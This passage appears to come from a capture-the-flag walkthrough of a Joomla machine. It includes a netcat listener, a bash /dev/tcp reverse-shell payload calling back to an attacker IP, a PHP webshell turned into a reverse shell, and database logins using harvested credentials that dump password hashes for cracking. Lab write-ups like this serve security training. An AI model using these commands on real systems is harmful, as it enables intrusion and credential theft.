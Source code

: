 Host:
```bash
rlwrap nc -lnvp 6666
```

Payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.142/6666 0>&1'
```

![Fail](IMG/img8.png)

I'll need to find another way to obtain a shell.

I modified the mod_webshell.php to start a reverse shell with my machine, started a listening port on my machine and accessed the php file.

![shell](IMG/img9.png)

And it worked. I'll start an interactive shell and look around the system.

```bash
/bin/bash -i
```
## Lateral Movement

We know there is a msqli database on the system. I'll connect to it using the credentials found in the api configuration file and try to get some credentials.

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla

select name,password from sd4fg_users;
```

```
name    password
lewis   $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan paul      $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

We already have the password for lewis so I'll try to crack Logan's password.
